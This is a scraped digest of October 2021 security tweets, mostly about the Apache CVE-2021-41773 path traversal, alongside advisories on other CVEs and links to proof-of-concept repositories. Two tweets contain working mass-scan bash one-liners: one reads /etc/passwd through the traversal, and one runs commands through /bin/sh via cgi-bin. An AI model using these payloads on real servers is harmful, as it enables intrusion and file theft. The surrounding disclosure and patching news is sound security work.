


# Mekhalleh
**https://twitter.com/Mekhalleh/status/1445854775279423491 _at 2021-10-06 20:53:35_**
<blockquote>
Just pushed my PoC to get an RCE using the CVE-2021-41773 (Path Traversal in Apache 2.4.49) into @metasploit. You like Meterpreter?

cc @CERT_FR, @zeop_officiel, @Dinosn 

The Github repo from Zeop Entreprise is now public: https://t.co/NkUOesiZnO.

Pull: https://t.co/pZ2aQWExLt https://t.co/5tdkZsQbJn
</blockquote>

* https://github.com/Zeop-CyberSec/apache_normalize_path
* https://github.com/rapid7/metasploit-framework/pull/15754

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# PentesterG
**https://twitter.com/PentesterG/status/1445802062256566276 _at 2021-10-06 17:24:08_**
<blockquote>
#Apache fixes actively exploited web server #zeroday 

🔥  I Reproduced the fresh CVE-2021-41773 Path Traversal vulnerability in Apache 2.4.49.

=&gt; LFI
 =&gt;Also, RCE providing mod-CGI is enabled.
https://t.co/EZWEnbhjiO

https://t.co/HPpbrcs9hc
Patch ASAP!
{1}
</blockquote>

* https://pentesterguruji-notes.notion.site/CVE-2021-41733-f58b52f484b94671b319c107ac2739bf
* https://github.com/PentesterGuruji/CVE-2021-41773

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1445666357920428036 _at 2021-10-06 08:24:53_**
<blockquote>
Update : CVE-2021-41773 POC as RCE 🔥👇💥

✅One Liner:
cat file | while read host do ; do curl --silent --path-as-is --data "echo;id" '$host/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' | grep "uid" &amp;&amp; echo "$host \033[0;31mVuln\n"|| echo "$host \033[0;32mNot\n";done

#infosec #bugbounty
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>9</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>310</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445654263971995653 _at 2021-10-06 07:36:50_**
<blockquote>
Multiple critical vulnerabilities have been discovered in #Honeywell Experion PKS and ACE Controllers that could be exploited for RCE and DoS attacks on critical processes.

https://t.co/3Phji231fH

CVE-2021-38397 (CVSS 10)
TypeCVE-2021-38395 (CVSS 9.1)
CVE-2021-38399 (CVSS 7.5)
</blockquote>

* https://thehackernews.com/2021/10/multiple-critical-flaws-discovered-in.html

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# _r_netsec
**https://twitter.com/_r_netsec/status/1445602995203239946 _at 2021-10-06 04:13:06_**
<blockquote>
Yet another PHP 7.0-8.0 disable_functions bypass 0day PoC https://t.co/lBzq0XzAzd
</blockquote>

* https://github.com/mm0r1/exploits/tree/master/php-filter-bypass

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>78</code></td>
<td>Favorites: <code>208</code></td>
</tr></table>

---

# GreyNoiseIO
**https://twitter.com/GreyNoiseIO/status/1445565658758991875 _at 2021-10-06 01:44:45_**
<blockquote>
GreyNoise is observing vuln-checking and exploitation of Apache CVE-2021-41773 at internet-scale from several hosts. Increase in attempts is likely. Tags available to all users and customers now. 

tags:"Apache HTTP Server Path Traversal Attempt"

https://t.co/qIQU2MQ26p https://t.co/xqj8hkbzEf
</blockquote>

* https://www.greynoise.io/viz/query/?gnql=cve%3ACVE-2021-41773

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# hackerfantastic
**https://twitter.com/hackerfantastic/status/1445523524555186189 _at 2021-10-05 22:57:19_**
<blockquote>
Oh good, CVE-2021-41773 is in fact also RCE providing mod-cgi is enabled. An attacker can call any binary on the system and supply environment variables (that's how CGI works!) - if they can upload a file and set +x permissions, they can trivially run commands as Apache user. https://t.co/c3D2h5Cy4A
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>19</code></td>
<td>Replies: <code>16</code></td>
<td>Retweets: <code>194</code></td>
<td>Favorites: <code>515</code></td>
</tr></table>

---

# cyph3r_asr
**https://twitter.com/cyph3r_asr/status/1445424339709358088 _at 2021-10-05 16:23:11_**
<blockquote>
For those who are into mass hunting and automation!

👉 Apache 2.4.49 - Path Traversal
CVE-2021-41773 POC 

https://t.co/GyHG4TK9lf

👉 Aviatrix Controller 6.x before 6.5-1804.1922. RCE
CVE-2021-40870 POC

https://t.co/d8hrai6QtP

https://t.co/h5h9CuzdTx

#bugbountytips #infosec
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-41773.yaml
* https://github.com/projectdiscovery/nuclei-templates/blob/master/technologies/aviatrix-detect.yaml
* https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-40870.yaml

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1445412108863041544 _at 2021-10-05 15:34:35_**
<blockquote>
CVE-2021-41773 POC 🔥👇
 
✅ One Liner :

cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" &amp;&amp; echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
</blockquote>

<table><tr>
<td>Quotes: <code>14</code></td>
<td>Replies: <code>11</code></td>
<td>Retweets: <code>400</code></td>
<td>Favorites: <code>994</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445405839041437699 _at 2021-10-05 15:09:41_**
<blockquote>
Apache has issued urgent security patches to address 2 new security vulnerabilities—including a zero-day path traversal and file disclosure flaw (CVE-2021-41773) in HTTP servers that it said is being actively exploited in the wild.

Details: https://t.co/B3wC46pZol

#infosec #
</blockquote>

* https://thehackernews.com/2021/10/apache-warns-of-zero-day-exploit-in.html

<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>149</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1445401617407295495 _at 2021-10-05 14:52:54_**
<blockquote>
NEW: Apache fixes actively exploited web server zero-day

-Tracked as CVE-2021-41773
-Issue resides in Apache's path normalization logic
-Several PoCs already released
-No details on the ongoing exploitation

https://t.co/JV9nKlgXLl https://t.co/JB0WLNvZf9
</blockquote>

* https://therecord.media/apache-fixes-actively-exploited-web-server-zero-day/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>54</code></td>
</tr></table>

---

# sec715
**https://twitter.com/sec715/status/1445397282581528588 _at 2021-10-05 14:35:41_**
<blockquote>
many have questioned. this poc.. hi I've made the nuclei-templates ahead of time you can check them out here @pdnuclei https://t.co/vtJOxs2UCq

#nuclei #automation #bugbounty
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/2773

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>51</code></td>
<td>Favorites: <code>230</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1444902961025531904 _at 2021-10-04 05:51:25_**
<blockquote>
The fugitive in Java: Escaping to Java to escape the Chrome sandbox  https://t.co/209BcBwzt4  #Pentestng #Java #WebSecurity #Infosec https://t.co/9A6exbMym6
</blockquote>

* https://securitylab.github.com/research/chrome_sbx_java/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>36</code></td>
</tr></table>

---

# idsec_
**https://twitter.com/idsec_/status/1444667196731375622 _at 2021-10-03 14:14:34_**
<blockquote>
WordPress 5.6-5.7 - Authenticated (Author+) XXE (CVE-2021-29447)

https://t.co/tDv7eE0dWk
</blockquote>

* https://github.com/motikan2010/CVE-2021-29447

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1444487410092417028 _at 2021-10-03 02:20:10_**
<blockquote>
#exploit
CVE-2021-34730:
A vulnerability (stack overflow) in the Universal Plug-and-Play (UPnP) service of Cisco Small Business RV110W, RV130, RV130W, RV215W Routers (0day)
https://t.co/iyTzSTGDJ3

@TodayCyberNews
</blockquote>

* https://github.com/badmonkey7/CVE-2021-34730

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>5</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1444487404182650881 _at 2021-10-03 02:20:09_**
<blockquote>
Top 10 Most Used Vulns of the Month (Sep 1-30)
#Analytics

CVE-2021-40444 - Microsoft MSHTML RCE

CVE-2021-26084 - Confluence Server Webwork OGNL Inj

CVE-2021-22005 - vCenter Server contains - arbitrary file upload

#CVE #bugbountytips #bugbounty #cybersecurity #infosec https://t.co/E7JWhFT4VD
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>51</code></td>
</tr></table>

---

